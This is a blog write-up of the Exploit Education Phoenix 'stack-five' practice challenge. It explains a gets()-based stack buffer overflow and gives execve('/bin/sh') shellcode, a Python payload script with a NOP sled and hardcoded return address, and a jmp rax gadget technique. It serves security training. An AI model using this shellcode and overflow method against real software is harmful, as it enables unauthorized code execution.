

Exploit Education: Stack Five
This blog is part of the exploit-education series. Here I will be discussing the solution to the stack-five challenge from the phoenix VM. I have completed this exploit for x86_64 architecture.
Vulnerabilities
Below is the vulnerable code from the stack-five challenge:
void start_level() {
char buffer[128];
gets(buffer);
}
int main(int argc, char **argv) {
printf("%s\n", BANNER);
start_level();
}
Buffer overflow vulnerability: The gets function is used to read input from the user which does not check the size of the input.
Exploitation
Thought process for exploitation:
- Find the return address offset to jump to the shellcode.
- Find the address of the shellcode using gdb.
- Create a payload that will have the shellcode for execve("/bin/sh", NULL, NULL) and the address of the shellcode as the return address.
- payload should not contain terminating newlines or EOF as
getsandfgetsterminate at newline or EOF. - Use a NOP sled to make the exploit more stable.
payload = nop sled + shellcode + nop sled + saved rbp (becomes the new rsp)
return address
Where to jump (Return address)
When looking for the return address, keep in mind that the pointer in rdi register is updated by gets() function based on the number of bytes read.
Tip
Try not to use the stack for shell code.
Jumping to an address not in the stack is more stable because there is a difference in the environment between the debugger and the actual program. The debugger loads environment variables which can alter the addresses in the stack. Environment variables are located in the stack and heap so the sizes can differ between different environments. ^1 As per my debugging, even the environment between TMUX and plain terminal was making a difference. TMUX introduces env variables.
One more thing to note is that the addresses also change depending on the way the program is called.
Tip
Use a NOP sled even before the shellcode due to environment differences.
Environment differences between the debugger and shell
./stack-five and /home/user/stack-five have different addresses due to
change in the size of argv[0] which will affect the stack.
The debugger usually uses the complete path when running the program so the offsets you find in the debugger when used directly on the binary will go higher up in the stack which can lead to illegal instructions as they have gone above your payload and not hitting the nop sled.
- To try and make the environment in the debugger and shell equal, use
unset env LINESandunset env COLUMNS. - Also
set env _=/home/user/stack-fiveto set the_env variable in the debugger to what it would be when running the binary in shell. - Also, use the complete path to the binary (to keep argv similar) when running the binary in shell because the debugger uses the complete path.
Crafting the Shellcode
I took the shellcode from shell-storm.org Shellcode:
.intel_syntax noprefix
#execve("/bin/bash",{NULL},{NULL})
.text
.global _start
_start:
mov rax, 0x68732f6e69622f
push rax
push rsp
pop rdi
xor eax, eax
push rax
mov al, 59
push rsp
pop rdx
push rsp
pop rsi
syscall
# as -o sc.o sc.s
# objcopy -O binary -j .text sc.o sc.bin
# xxd -i -n sc sc.bin
# unsigned char sc[] = {
# 0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x50, 0x54,
# 0x5f, 0x31, 0xc0, 0x50, 0xb0, 0x3b, 0x54, 0x5a, 0x54, 0x5e, 0x0f, 0x05
# };
# unsigned int sc_len = 24;
# Fnknda<joao[at]fukuda[dot]sh>
Save the shellcode in a file sc.bin and use it in the exploit.
as -o sc.o sc.s
objcopy -O binary -j .text sc.o sc.bin
Exploit script
import sys
with open('sc.bin', "rb") as file:
shellcode = file.read()
payload = b''
payload += b"\x90"*16
payload += shellcode
nop_len = 128 - len(payload) + 8 #rbp length = 8
payload += b"\x90"*nop_len
ret_address = b"\x00\xe6\xff\xff\xff\x7f\x00\x00"
payload += ret_address
sys.stdout.buffer.write(payload)
Exploit: (python3 stack-five.py; cat ) | /home/user/stack-five
Exploit environment:
- Works when I am on wsl and ssh into the machine with
ssh user@127.0.0.1 -p 2222. - As checked it's not working on the qemu GUI.
You can see how below how length of argv affects the exploit.

Making the exploit more stable
As checked in the debugger, the address of the buffer remains in rax register at
the end of the function call. So, if we can find the address of a jmp rax
instruction in the .text section then we can return to it to execute shellcode
reliably.
objdump -d -j .text stack-five | grep -i 'jmp'
Use ROPgadget for big or complex binaries and instructions.
Using the address of the jmp rax instruction as the return address, the
exploit worked in TMUX, shell, and qemu.
Conclusion
Hope the write-up was helpful. If you have any queries or suggestions, feel free to add them in the comments below.